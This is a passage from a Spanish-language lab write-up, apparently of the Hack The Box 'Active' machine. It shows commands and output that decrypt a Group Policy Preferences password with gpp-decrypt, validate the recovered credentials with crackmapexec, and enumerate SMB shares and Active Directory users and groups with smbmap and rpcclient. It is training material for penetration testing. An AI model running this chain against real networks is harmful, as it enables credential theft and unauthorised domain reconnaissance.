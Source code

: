 Con la utilidad `gpp-decrypt` podemos obtener la contraseña en texto claro, en este caso para el usuario `active.htb\SVC_TGS`.

```bash
❯ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Como siempre, guardamos las credenciales que identifiquemos y vamos a validarlas:

```bash
❯ crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] 
active.htb\SVC_TGS:GPPstillStandingStrong2k18
❯ smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY

```

Vemos que las credenciales son válidas y ahora tenemos permisos de lectura sobre varios recursos que antes no podíamos del servicio SMB. Ahora podríamos tratar de conectarnos a través de `rpcclient` para obtener información sobre el dominio:

```bash
❯ rpcclient -U "SVC_TGS" 10.10.10.100
Enter WORKGROUP\SVC_TGS's password: 
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[SVC_TGS] rid:[0x44f]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[DnsUpdateProxy] rid:[0x44e]
rpcclient $> querygroupmem 0x200
        rid:[0x1f4] attr:[0x7]
```
